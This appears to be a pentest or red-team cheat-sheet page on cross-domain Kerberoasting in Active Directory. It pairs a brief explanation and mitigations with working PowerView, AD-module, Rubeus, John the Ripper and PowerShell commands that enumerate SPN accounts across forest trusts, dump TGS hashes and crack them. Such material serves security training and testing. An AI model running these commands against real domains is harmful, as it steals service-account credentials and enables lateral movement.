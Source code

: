 # 🟢 Kerberoast

Cross Domain Attacks, particularly leveraging the Kerberoasting technique, exploit weaknesses in the Kerberos authentication protocol to gain unauthorized access across domain boundaries.&#x20;

In these attacks, threat actors target Service Principal Names (SPNs) to request Ticket Granting Service (TGS) tickets. These tickets are then cracked offline, revealing service account credentials.&#x20;

By using tools like PowerShell, attackers can request TGS tickets across forest trusts, potentially escalating their privileges and moving laterally within and across domain environments.&#x20;

Kerberoasting underscores the critical need for robust security measures, such as regular password changes for service accounts and monitoring for anomalous authentication requests.

### Cross Domain Attacks and Kerberoasting

Cross Domain Attacks leverage the Kerberos authentication protocol's weaknesses, allowing unauthorized domain boundary traversal. This method primarily focuses on:

* **Identifying SPN accounts:** Service Principal Names (SPNs) are targeted to initiate the attack.
* **Requesting TGS tickets:** For users with forest trust, attackers request Ticket Granting Service (TGS) tickets.
* **Cracking the tickets:** Utilizing tools like John The Ripper (JTR), the retrieved TGS tickets are cracked to discover service account credentials.
* **Leveraging PowerShell for TGS requests:** Attackers exploit PowerShell to request TGS tickets across forest trusts, enabling lateral movements and privilege escalation.

#### Mitigation Strategies

To counteract such threats, several mitigation strategies are advised:

* **Regular password changes for service accounts:** Ensuring service accounts have robust, frequently updated passwords diminishes the success rate of Kerberoasting.
* **Monitoring for anomalous authentication requests:** Implementing surveillance for irregular authentication requests can help in early detection of potential attacks.

Adhering to these strategies significantly reduces the risk associated with Cross Domain Attacks and Kerberoasting, safeguarding your domain's integrity and security.

### Practice

#### Find user accounts used as Service account

It is possible to execute Kerberoast across Forest trusts

{% tabs %}
{% tab title="Powerview" %}
```
Get-NetUser -SPN
Get-NetUser -SPN -Verbose | select displayname,memberof
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}
```
{% endtab %}

{% tab title="AD Module" %}
```
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName -Server $_.Name}
```
{% endtab %}
{% endtabs %}

#### &#x20;Request a TGS

```
C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:euhashes.txt
```

#### Check for the TGS

```
klist
```

#### Crack the ticket using JTR

```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

#### Request TGS across trust

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList MSSQLSvc/eu-file.eu.local@eu.local
```
